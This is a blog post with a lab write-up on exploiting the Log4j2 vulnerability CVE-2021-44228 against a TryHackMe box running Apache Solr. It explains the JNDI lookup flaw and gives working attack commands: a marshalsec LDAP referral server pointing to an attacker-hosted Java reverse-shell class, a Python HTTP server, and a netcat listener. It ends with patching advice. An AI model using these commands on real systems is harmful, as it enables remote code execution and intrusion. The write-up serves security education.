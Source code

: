 ```yaml
---
layout: post
author: Istvan Kis
title: Log4j2 RCE and exploitation example (CVE-2021-44228)
image: log4j-1.jpg
keywords: log4j vulnerability, log4j exploit, CVE-2021-44228, hacker, reverse shell, remote code exection, tryhackme
---
```

{% include image.html src="/images/log4j-1.jpg" alt="Fox is looking really smart with glasses" %}

## What is CVE-2021-44228?

In the first half of December, 2021, ransomware attackers received the perfect Santa gift: an easily exploitable Log4j2 vulnerability. Log4j is a widely used, Java-based logging utility published by Apache initially in 2001. Since then it received many updates, and a major release to version 2. As of today, the latest patched version is 2.16.0 (December 13).

Today we use this flaw and open shell to our target machine.

<!--more-->

## About the vulnerability

However you may think that a logging tool only processes standard text files with proper input sanitising, well, not every time. Log4j allows us to do some extra [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) there, using templates. An example from Log4j website:

{% include image.html src="/images/log4j-2.png" alt="Log4j lookup example" %}

The vulnerability is based on the allowance of reaching JNDI (it is a directory service via a Java API, more info [here](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) API through the mentioned lookup mechanism, and there is no restriction for using completely custom prefix in this parameter string. It means that if we use a `jndi:ldap://` with an attacker host's prepared LDAP server, dirty stuff can come (**remote code execution**). For the record we need to mention, that DNS or RMI protocols can work as well.

{% include image.html src="/images/log4j-3.jpg" alt="Log4j attacking architecture" %}

(Credit for the detailed explanation picture above: [Fastly](https://www.fastly.com).)

## Why is it so dangerous?

For multiple reasons: for first, it is very easily exploitable, any script kiddie can take advantage of that. Secondly, there are many affected services because of transitive dependencies. Tons of enterprise softwares use this logging mechanism as external lib. Third part is related to the second one, patching Log4j itself is not enough, you need to check and understand if your enterprise, “black-box” software components use this library or not, and if so, plan and carry out proper the risk mitigation.

## Exploitation example

We used [Tryhackme](https://tryhackme.com) box to test the exploits. These guys are committed to teach the people of the internet about awareness, security, penetration testing and many more, therefore I can frankly recommend you to give them a try.

### Starting situation

So we have a vulnerable computer, which we are **allowed** to hack. There is a limited VPN between this computer (10.10.17.246) and our own attacker machine (10.9.125.225) with Kali linux ran in Virtualbox.

### Recon & discovery

Let’s check if there are any services available with port scanning. Used an aggressive scanning (**-A**) because of the playing machine (no reason to be silent), and dedicated port range for seeing only the relevant port for us. (You should check all ports usually with flag **-p-**).

{% include image.html src="/images/log4j-4.png" alt="Port scanning on target host" %}

We see that Apache Solr is running on port 8983, let’s see it in the browser.

{% include image.html src="/images/log4j-5.png" alt="Solr web interface" %}

We see Log4j2 logging scheme, and it’s [vulnerable](https://solr.apache.org/security.html), as it turns out after a short google-fu. The box itself cheats a bit here, because we can see logs from this host, which would be not available in a real situation. (In those circumstances, instead of watching the logs, we could use directory busting or other attack vectors for finding a vulnerable endpoint.)

{% include image.html src="/images/log4j-6.png" alt="Log analysis of Solr" %}

We think that the template is parameterizable (`params={}`), and also see the `/admin/cores` endpoint. Here we are.

{% include image.html src="/images/log4j-7.png" alt="Solr vulnerable endpoint" %}

We learned from the vulnerability description that through lookups we can reach external ldap or dns servers. It is over TCP, let’s check what happens if we try to catch that connection with *netcat*.

{% include image.html src="/images/log4j-8.png" alt="LDAP request catch with netcat" %}

Connection is established, but because of LDAP request structure, the output is not readable by humans. However this is a good sign.

### Exploitation

PoC was successful, now we need a process with a toolset, which can handle LDAP requests, and push an exploit to our Java-based application in an “understandable” format. Obviously it means some kind of Java class(es) / POJO.

The plan is to have an **LDAP relay** or referral server, have a simple **http server**, which can accept this connection and serve the **Java class**, which will open a **reverse shell** to our attacker computer.

For LDAP relay we use [Marshalsec](https://github.com/mbechler/marshalsec) with Maven. I won't go in details about the installation, it's pretty straightforward and well-documented in Github. 

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.125.225:8000/#Revshell”`

As a http server you can use anything handy, we prefer python3 http.server. 

`python3 -m http.server`

So LDAP will use Revshell.class on python webserver, but there is nothing yet. That is the last preparation step.

{% include image.html src="/images/log4j-9.png" alt="Reverse shell in Java - source" %}

Let’s compile it with `javac Revshell.java` and put the class into the python webserver directory. Do not forget, that the vulnerability has Java related requirements (pref. Java 7-8 for the build). We used OpenJDK 1.8.0_181.

As last step, run the listener, which will accept the reverse connection. 

`nc -nltvp 1234`

Here is our setup as a whole:

{% include image.html src="/images/log4j-10.png" alt="Schematic draw of the attack" %}

A short video about getting everyhing ready.

<iframe width="700" height="394" src="https://www.youtube.com/embed/xfLU5gJP0c8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

This easy is to break into systems and receive remote shell via the new Log4j2 vulnerability. It is not a coincidence, that the CVE score of it is 9.7 out of 10, while the CVSS score is 10 out of 10. Absolutely critical.

## What can we do to save our infrastructure?

Patch, patch, patch. Log4j has released fix for the base components, but as we earlier mentioned, we need to cover custom softwares and transitive dependencies as well. Watch the list of vulnerable softwares, contact your vendors, use [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) with proper string filtering, analyse activities, log files and traces. There are a couple online services, which provide remote checks of these threats. I only recommend these, if you can truly trust in them, e.g. [Trendmicro](https://log4j-tester.trendmicro.com).
